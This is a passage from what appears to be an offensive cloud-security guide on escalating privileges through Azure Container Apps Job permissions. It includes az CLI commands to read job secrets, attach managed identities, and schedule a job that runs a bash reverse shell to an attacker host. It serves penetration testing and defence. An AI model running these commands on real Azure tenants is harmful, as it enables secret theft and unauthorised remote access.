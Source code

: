 ```bash

# Start a new job execution with the modified template:
az containerapp job start --name <job-name> --resource-group <res-group> --yaml job-template.yaml
```

### `Microsoft.App/jobs/read`, `Microsoft.App/jobs/listSecrets/action`

If you have these permissions you can list all the secrets (first permission) inside a Job container and then read the valus of the secrets configured.

```bash
az containerapp job secret list --name <job-name> --resource-group <res-group>
az containerapp job secret show --name <job-name> --resource-group <res-group> --secret-name <secret-name>
```

### `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`, `Microsoft.App/jobs/write`

If you have permission to modify a job’s configuration, you can attach a user‑assigned managed identity. This identity might have additional privileges (for example, access to other resources or secrets) that can be abused to escalate privileges inside the container.

```bash
az containerapp job update \
  --name <job-name> \
  --resource-group <res-group> \
  --assign-identity <user-assigned-identity-id>
```

### `Microsoft.App/managedEnvironments/read`, `Microsoft.App/jobs/write`, `Microsoft.App/managedEnvironments/join/action`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

If you can create a new Container Apps Job (or update an existing one) and attach a managed identity, you can design the job to execute a payload that escalates privileges. For example, you could create a new job that not only runs a reverse shell but also uses the managed identity’s credentials to request tokens or access other resources.

```bash
az containerapp job create \
  --name <new-job-name> \
  --resource-group <res-group> \
  --environment <environment-name> \
  --image mcr.microsoft.com/oss/nginx/nginx:1.9.15-alpine \
  --user-assigned <user-assigned-identity-id> \
  --trigger-type Schedule \
  --cron-expression "*/1 * * * *" \
  --replica-timeout 1800 \
  --replica-retry-limit 0 \
  --command "bash -c 'bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1'"
```
